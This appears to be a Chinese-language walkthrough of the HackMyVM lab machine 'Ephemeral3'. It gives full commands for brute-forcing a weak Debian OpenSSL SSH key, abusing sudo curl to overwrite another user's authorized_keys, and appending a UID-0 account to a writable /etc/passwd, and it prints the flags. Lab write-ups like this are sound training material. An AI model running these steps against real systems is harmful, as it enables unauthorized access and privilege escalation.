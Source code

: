 # Ephemeral3

2025.02.11 https://hackmyvm.eu/machines/machine.php?vm=Ephemeral3

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web，主页是 apache 默认页面，gobuster 进行扫描，发现: http://192.168.5.40/note.txt

```
Hey! I just generated your keys with OpenSSL. You should be able to use your private key now!
If you have any questions just email me at henry@ephemeral.com
```

发现一个可能存在的用户名 henry

发现另外一个目录: http://192.168.5.40/agency 但是是个静态网页，其他没发现什么有用信息。

还是关注一下 note 中的提示吧，提示生成了私钥，可以用私钥进行登陆，看看 openssl 有没有可以利用的漏洞，之前有一个 Predictable PRNG Brute Force SSH 进行尝试。

```
searchsploit -m linux/remote/5720.py

1. Download https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2)
2. Extract it to a directory
3. Execute the python script
   - something like: python exploit.py /home/hitz/keys 192.168.1.240 root 22 5
```

执行没有找到：

```
python2 5720.py rsa/2048 192.168.5.40 henry 22 5
```

可能是用户名不对，同时在 http://192.168.5.40/agency/ 底部发现了另外一个邮箱：randy@ephemeral.com 发现了另外一个可能的用户名 randy 再次尝试执行脚本：

```
python2 5720.py rsa/2048 192.168.5.40 randy 22 5

找到私钥 0028ca6d22c68ed0a1e3f6f79573100a-31671
```

进行登陆：

```
ssh -i rsa/2048/0028ca6d22c68ed0a1e3f6f79573100a-31671 randy@192.168.5.40
```

sudo -l 发现：(henry) NOPASSWD: /usr/bin/curl 可以先读取 henry 文件夹下的 user flag:

```
randy@ephemeral:/home/henry$ sudo -u henry curl file:///home/henry/user.txt -o /tmp/user.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0  33000      0 --:--:-- --:--:-- --:--:-- 33000
randy@ephemeral:/home/henry$ cat /tmp/user.txt
9c8e36b0cb30f09300592cb56bca0c3a
```

同时利用 curl 将公钥信息写入到 authorized_keys 中：

```
ssh-keygen -t rsa -f ./id_rsa
sudo -u henry curl file:///home/randy/id_rsa.pub -o /home/henry/.ssh/authorized_keys
```

然后使用生成的私钥登陆：

```
ssh -i id_rsa henry@192.168.5.40
henry@ephemeral:~$ id
uid=1001(henry) gid=1001(henry) groups=1001(henry)
```

枚举后发现 /etc/passwd 对 henry 用户可写，直接添加一个超级用户：

```
openssl passwd -1 -salt new 123

echo 'admin:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
su admin
cd /root
cat root.txt
b0a3dec84d09f03615f768c8062cec4d
```
